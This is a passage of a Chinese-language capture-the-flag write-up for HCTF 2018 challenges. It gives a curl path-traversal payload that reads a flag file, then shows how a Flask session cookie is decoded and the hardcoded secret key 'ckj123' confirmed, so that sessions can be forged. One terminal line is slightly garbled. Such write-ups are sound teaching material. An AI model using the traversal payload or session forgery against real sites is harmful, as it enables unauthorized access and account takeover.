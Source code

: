 ```
?>
```

payload:

` curl "http://warmup.2018.hctf.io/index.php" -d "file=hint.php?/../ffffllllaaaagggg"`

## admin

### 方法1

flask的session保存在cookie中，并通过密钥校验session的正确性。如果知道密钥，也就可以任意伪造session.

使用工具:https://github.com/noraj/flask-session-cookie-manager

```shell
qianfa@qianfa:~/Desktop/hctf$ python session_manager.py decode -c ".eJw9kEGLwjAQhf_KMmcPmtWL4EGIlQozRUgNmYu4bW0bExeqUhvxv290wdMw8-C9-d4D9seuujQwv3a3agT7toT5A75-YA68zmfGbqcUlkOmE2f8zpJdCfSrPpP13YSdxVD3JIse1zhluXGZ2jiyyxnJekrCCONzQap0RpkxqaTBeGeZDxQSS5objBOlGTKVfse8iVHUsCpPvN5OUEev4JpMrwRLHEjnA6r0TqE5sXQxZzuLe0CdL-A5guLSHffX31N1_iCgXN7JJ62x7F8or9fZlh4FedJpxMgHjhoKduzZUogx9eJt1_pDXX2ctC7Tov9XzgcfBbi2h3PZ9jfbwghul6p7lweTMTz_ADRccOA.W-gvYA.qZr8vZsK6dpC8j6l3v-Oavi_KQc"
{"_fresh":true,"_id":{" b":"ZGU5YjQ4NzAyOWFlYmVjNjE2MmEwODgxYzVjMzgwNDcwMGM4ZDJlOTJlNjA5NDg4N2Y2YmU2NTdlYTY0NTFhMDg4ZDUyNzFjNWZhMzFjMDYyOTI3ZGU1YTNhZTdkZGQ1MWJlNzlhOWE2ZDMyNWUyMTIxNzhkZDllNjQ5MTIzMWU="},"csrf_token":{" b":"MDAxNmFiYjZmYjQ4MmEwZjdmM2NmNWIwODUyZjZmM2ZlZmZjNzMyNg=="},"image":{" b":"WWdIcw=="},"name":"tiandiwuji","user_id":"10"}
```

网站源代码:

`https://github.com/woadsl1234/hctf_flask/`

通过源码我们可以看到：

`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

尝试使用`ckj123`查看我们的cookie:

```shell
qianfa@qianfa:~/Desktop/hctf$ python session_manager.py decode -c ".eJw9kEGLwjAQhf_KMmcPmtWL4EGIlQozRUgNmYu4bW0bExeqUhvxv290wdMw8-C9-d4D9seuujQwv3a3agT7toT5A75-YA68zmfGbqcUlkOmE2f8zpJdCfSrPpP13YSdxVD3JIse1zhluXGZ2jiyyxnJekrCCONzQap0RpkxqaTBeGeZDxQSS5objBOlGTKVfse8iVHUsCpPvN5OUEev4JpMrwRLHEjnA6r0TqE5sXQxZzuLe0CdL-A5guLSHffX31N1_iCgXN7JJ62x7F8or9fZlh4FedJpxMgHjhoKduzZUogx9eJt1_pDXX2ctC7Tov9XzgcfBbi2h3PZ9jfbwghul6p7lweTMTz_ADRccOA.W-gvYA.qZr8vZsK6dpC8j6l3v-Oavi_KQc" -s "ckj123"
{u'csrf_token': '0016abb6fb482a0f7f3cf5b0852f6f3feffc7326', u'user_id': u'10', u'name': u'tiandiwuji', u'image': 'YgHs', u'_fresh': True, u'_id': 'de9b487029aebec6162a0881c5c3804700c8d2e92e6094887f6be657ea6451a088d5271c5fa31c062927de5a3ae7ddd51be79a9a6d325e212178dd9e6491231e'}

qianfa@qianfa:~/Desktop/hctf$ tf$ python session_managerdecode -c ".eJw9kEGLwjAQhf_KMmcPmtWL4EGIlQozRUgNmYu4bW0bExeqUhvxv290wdMw8-C9-d4D9seuujQwv3a3agT7toT5A75-YA68zmfGbqcUlkOmE2f8zpJdCfSrPpP13YSdxVD3JIse1zhluXGZ2jiyyxnJekrCCONzQap0RpkxqaTBeGeZDxQSS5objBOlGTKVfse8iVHUsCpPvN5OUEev4JpMrwRLHEjnA6r0TqE5sXQxZzuLe0CdL-A5guLSHffX31N1_iCgXN7JJ62x7F8or9fZlh4FedJpxMgHjhoKduzZUogx9eJt1_pDXX2ctC7Tov9XzgcfBbi2h3PZ9jfbwghul6p7lweTMTz_ADRccOA.W-gvYA.qZr8vZsK6dpC8j6l3v-Oavi_KQc" -s "ckj1234"
[Decoding error]Signature 'qZr8vZsK6dpC8j6l3v-Oavi_KQc' does not match
```

我们发现`ckj123`就是真实的密钥。

